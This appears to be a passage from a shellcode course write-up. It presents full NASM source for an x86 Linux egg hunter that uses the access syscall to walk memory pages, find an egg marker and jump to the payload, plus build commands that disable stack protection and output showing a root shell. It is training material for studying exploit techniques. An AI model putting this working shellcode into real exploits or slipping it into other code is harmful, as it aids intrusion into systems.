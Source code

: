 Syscall number:  
```
#define __NR_access 33
```
  
Dans /usr/include/asm-generic/errno-base.h:  
```
#define	EFAULT		14	/* Bad address */
```
  
We will go through the memory pages and parse each readable memory page in order to look for our egg shellcode.  
```bash
# getconf PAGE_SIZE
4096
```
  
Here is what our new egg hunter looks like:  
```nasm
global _start
 
section .text
 
_start:

        xor ecx,ecx         ; ecx zeroed out
        mul ecx             ; clear eax, edx

 next_page:
        or bx, 0xfff        ; 0x1000 - 1 (4095)
        mov edi, dword 0x50905091
        dec edi

next_addr:
        inc ebx             ; +1 so we move to the next 4096 bytes (next page)
        push byte 0x21      ; access syscall
        pop eax
        int 0x80
 
        cmp al, 0xf2         ; check for EFAULT
        je _start            ; if EFAULT, we are going to the nextpage
        cmp dword [ebx], edi ; our egg mark
        jne next_addr        ; we are parsing the readable memory page
        lea eax, [ebx+4]     ; @ of the shellcode
        jmp eax
```
  
Replacing the egg hunter in our [shellcode_heap.c](https://github.com/phackt/slae/blob/master/assignment3/shellcode_heap.c) with the above egg hunter shellcode, compiling and executing provides:  
```bash
# gcc -fno-stack-protector -z execstack -o shellcode_heap shellcode_heap.c  && ./shellcode_heap
Egg hunter shellcode Length:  34
Egg shellcode Length:  74
# id  
uid=0(root) gid=0(root) groups=0(root)
# 
```
  